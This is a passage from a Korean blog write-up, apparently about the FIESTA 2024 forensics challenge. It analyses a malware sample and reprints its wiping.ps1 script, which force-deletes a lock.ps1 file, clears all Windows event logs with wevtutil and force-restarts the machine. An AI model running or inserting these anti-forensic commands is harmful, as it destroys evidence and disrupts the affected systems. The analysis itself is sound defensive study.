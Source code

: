와 저런 식으로 오버라이드를 해버리네

<br>

그런데 우리가 잊지 말아야 할 게 있음

![image.png](/assets/img/posts/2025-02-02-FIESTA2024-cert1/image%2026.png){: width="80%" height="80%"}

이 악성파일은 저 깃헙 레포에 수상할 정도로 많이 접근함

그리고 이쯤에서 다시 꺼내보는 wiping.ps1

```powershell
$filePath = "C:\Users\Public\lock.ps1"

if (Test-Path $filePath) {
    Remove-Item $filePath -Force
}

wevtutil el | foreach { wevtutil cl $_ }
Start-Sleep -Seconds 300
Restart-Computer -Force
```

<br>

`lock.ps1`을 삭제한다고 되어 있는데
